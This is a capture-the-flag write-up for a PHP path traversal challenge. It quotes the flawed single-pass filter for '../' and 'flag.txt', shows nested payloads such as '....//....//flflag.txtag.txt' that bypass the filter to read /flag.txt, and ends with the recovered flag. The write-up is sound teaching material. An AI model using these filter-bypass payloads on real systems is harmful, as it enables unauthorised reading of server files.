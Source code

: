 # 『elefay』
> Flag file in /flag.txt

> Link: 10.4.79.68:20005

author: anarchistx

# 『The challenge』

We're given this challenge

<img width="757" height="298" alt="image" src="https://github.com/user-attachments/assets/09431c07-6da4-483b-a017-bead17b27bfe" />

So it should be path traversal. let solve!

# 『Solving challenge』
> Solve by: Lylera_

So this is path traversal - lfi (local file inclusion). if you notice this one

```
if (isset($_GET['file']) && $_GET['file'] !== '') {
  $file = preg_replace('/flag\.txt/i', '', preg_replace('/\.\.\//', '', $_GET['file']));
```

which mean it get some file `flag.txt` by using `?file=` but remember, if you use `../../` it will replace to `''` which is nothing.

So how to face this one? simple. try this command: `?file=/`

<img width="831" height="176" alt="image" src="https://github.com/user-attachments/assets/0c8e1709-930c-4067-a701-8bf9d156eadb" />

it will show up an error of this because it cannot be replace `/`. but you use `../` it will replace.

By this, you know the pattern. Try this `....//`

<img width="799" height="213" alt="image" src="https://github.com/user-attachments/assets/933615e5-dc4d-427d-b557-2d007722b2bb" />

you can double `../` this one and it will replace once, not twice. so this will leave the pattern. next one execute time.

# 『Flag』

try this:
```
?file=/....//....//flflag.txtag.txt
```

<img width="663" height="122" alt="image" src="https://github.com/user-attachments/assets/195ea227-28e6-46d0-bbbf-3430797fcdfc" />


or this one:
```
?file=....//....//....//flflag.txtag.txt
```

<img width="653" height="146" alt="image" src="https://github.com/user-attachments/assets/abe3dfd6-7440-49c1-bbcd-d47b9029ff89" />

```
compit{k4mu_j4g0_b4ng3t_s1h_b4n9_m44f_ya_pr0bs3t_s3d4ng_m4l4s}
```

